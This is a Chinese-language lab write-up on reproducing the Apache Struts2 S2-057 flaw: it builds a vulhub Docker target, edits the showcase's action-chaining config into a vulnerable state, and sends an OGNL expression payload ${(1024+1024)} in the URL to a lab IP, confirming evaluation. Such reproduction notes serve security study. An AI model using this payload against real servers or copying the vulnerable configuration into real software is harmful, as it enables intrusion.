



# S2-057 漏洞复现


靶机系统：ubuntu 16.04

# 0x01 搭建struts2

利用`vulhub`来搭建，需要在ubuntu在安装好docker

docker安装选择阿里云的源，不然会连接失败，还有需要root权限。详细参考：[Ubuntu 16.04 安装 Docker][1]

安装好后 `docker version` 验证是否成功


成功后安装`vulhub`

```
git clone https://github.com/vulhub/vulhub
cd vulhub/struts2/s2-048
docker-compose up -d

```


# 0x02 搭建st2-057漏洞环境

`docker ps`查看CONTAINER ID


```
docker exec -i -t 上面的CONTAINER_ID /bin/bash
```

因为Struts 2.5.16存在s2-057漏洞，所以去下载这个版本

然后运行
```
apt-get update -y
mkdir /usr/local/tomcat/webapps/test
wget https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip
apt-get install unzip -y
unzip struts-2.5.16-all.zip
cp struts-2.5.16/apps/struts2-showcase.war /usr/local/tomcat/webapps/
```

好了后就可以看到有了这个目录


然后需要修改2个配置文件
`/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining.xml`

修改为：
```
<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```
然后重新启动服务,

```
cd /usr/local/tomcat/bin/
./shutdown.sh 
docker-compose up -d
```

漏洞环境搭建完成


# 0x04  漏洞复现
靶机地址：`http://192.168.96.130:8080/struts2-showcase/`

命令执行：`http://192.168.96.130:8080/struts2-showcase/${(1024+1024)}/actionChain1.action`

payload：`${(1024+1024)}`

返回了：`http://192.168.96.130:8080/struts2-showcase/2048/register2.action`

执行了命令



到此漏洞复现成功

# 0x05 参考链接

```
https://github.com/vulhub/vulhub/tree/master/struts2/s2-048
https://github.com/jas502n/St2-057
https://lgtm.com/blog/apache_struts_CVE-2018-11776
https://www.anquanke.com/post/id/157518
https://bbs.ichunqiu.com/thread-44733-1-1.html

```


  [1]: https://www.cnblogs.com/penmily/p/7026964.html
